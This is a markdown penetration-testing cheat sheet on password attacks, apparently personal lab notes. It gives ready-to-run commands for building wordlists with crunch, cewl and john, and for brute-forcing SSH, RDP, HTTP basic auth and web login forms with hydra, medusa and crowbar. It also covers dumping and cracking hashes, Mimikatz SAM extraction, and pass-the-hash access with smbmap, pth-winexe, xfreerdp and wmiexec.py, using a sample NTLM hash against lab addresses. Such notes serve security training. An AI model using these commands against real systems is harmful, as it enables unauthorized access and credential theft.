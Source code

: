 # Password Attack

## Generate Wordlists

* `/usr/share/wordlists`

* `/usr/share/seclists`

### crunch

=== "Generation"

	``` bash
	crunch 5 5 -t ,@@^% -o password.txt
	```

	``` bash
	crunch 10 10 0123456789 -t 2343@@@@@@ -o passwd.txt
	```

	Using `/usr/share/crunch/charset.lst`

	``` bash
	crunch 4 4 -f /usr/share/crunch/charset.lst lalpha -o crunch.txt
	```

=== "crunch options"

	|Placeholder | Character Translation|
	|--|--|
	|@ | Lower case alpha characters|
	|, | Upper case alpha characters|
	|% | Numeric characters|
	|^ | Special characters including space|

### cewl

``` bash
cewl $url -m 6 -w wordlists.txt
```

### john.conf Rules

`/etc/john/john.conf` > `[List.Rules:Wordlist]`

``` bash
john --wordlist=passwd.txt --rules --stdout > pass-rules.txt
```

## Common Service

### HTTP htaccess Attack

[How To Set Up Password Authentication with Apache on Ubuntu 14.04](https://www.digitalocean.com/community/tutorials/how-to-set-up-password-authentication-with-apache-on-ubuntu-14-04)

``` bash
medusa -h 127.0.0.1 -u kali -P ./pass.txt -M http -m DIR:/
```

### RDP Attack

``` bash
crowbar -b rdp -s 192.168.11.135/32 -u windows_10_1903_x64 -C ./pass.txt -n 4
```

### SSH Attack

``` bash
hydra -l kali -P ./pass.txt ssh://127.0.0.1
```

### HTTP POST Attack

``` bash
hydra -l admin -P ./pass.txt 192.168.11.135 http-form-post "/admin.php:user=admin&pass=^PASS^:INVALID CREDENTIALS" -vV -f
```

## Leveraging Password Hashes

### Retrieving Password Hashes

[How to identify hash types](https://miloserdov.org/?p=1254)

[Generate password](https://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation) for new user

``` bash
openssl passwd -1 -salt hades leecybersec > hash.txt
```

``` bash
hashid -m hash.txt
```

``` bash
john --wordlist=./pass.txt hash.txt
```

### Passing the Hash in Windows

[Intro to Windows hashes](https://chryzsh.gitbooks.io/darthsidious/content/getting-started/intro-to-windows-hashes.html)

Mimikatz.exe

``` bash
privilege::debug
token::elevate
lsadump::sam
```

[Pass-The-Hash](https://www.puckiestyle.nl/pass-the-hash)

Using smbmap

List directory at folder Desktop

``` bash
smbmap -H 192.168.11.135 -u windows_10_1903_x64 -p 'aad3b435b51404eeaad3b435b51404ee:68bdacb06923faed9dc32661308f594e' -r 'Users\windows_10_1903_x64\Desktop'
```

Download file `41542.c` in Windows 10

``` bash
smbmap -H 192.168.11.135 -u windows_10_1903_x64 -p 'aad3b435b51404eeaad3b435b51404ee:68bdacb06923faed9dc32661308f594e' --download 'Users\windows_10_1903_x64\Desktop\41542.c'
```

pth-winexe

``` bash
pth-winexe -U windows_10_1903_x64%aad3b435b51404eeaad3b435b51404ee:68bdacb06923faed9dc32661308f594e //192.168.11.135 cmd
```

pth-wmis

``` bash
pth-wmis -U windows_10_1903_x64%aad3b435b51404eeaad3b435b51404ee:68bdacb06923faed9dc32661308f594e //192.168.11.135 cmd
```

xfreerdp

``` bash
xfreerdp /v:192.168.11.135 /u:windows_10_1903_x64 /pth:68bdacb06923faed9dc32661308f594e
```

wmiexec.py

``` bash
wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:68bdacb06923faed9dc32661308f594e windows_10_1903_x64@192.168.11.135
```